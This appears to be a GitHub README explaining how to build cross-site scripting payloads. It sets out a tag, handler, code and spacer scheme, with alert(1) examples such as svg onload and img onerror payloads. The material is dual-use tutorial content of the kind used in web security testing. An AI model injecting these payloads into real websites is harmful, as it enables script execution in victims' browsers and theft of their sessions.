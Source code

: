 # **XSS-payloads**
## XSS payload scheme

 Aside from the classic XSS payload <script>alert(1)</script> and source based ones like <a href=x>, we can start building payloads using the following simple scheme:

  ```
  <tag handler=code>
  ````
  Where we have the HTML tag, the event handler associated with it and the javascript code to execute.

But although it’s true for short payloads like <svg onload=alert(1)>, some payloads like <b onclick=alert(1)> that requires user interaction for example, needs a text to be clicked for the javascript code be triggered:
   ```
  <b onclick=alert(1)>click me!
    ```
 
Some payloads also need tag attribute(s) inside it:

```
<img src=x onerror=alert(1)>
```
And some needs something before it:

```
<frameset><frame src onload=alert(1)>
```
So let’s make a better scheme:

```
extra1 <tag extra2 handler=code> extra3
```
It has the following variation:
```
extra1 <tag handler=code extra2> extra3
```
Almost there. There’s also an important thing to consider: the spaces inside the tag. In the major browsers, we can have a slash between tag and handler, for example:

```
<svg/onload=alert(1)>
```
This and other characters are allowed between tag and handler, tag and attribute, attribute and handler etc without change the syntax.

Here is our final scheme:
```
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
```
Variation:
```
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
```
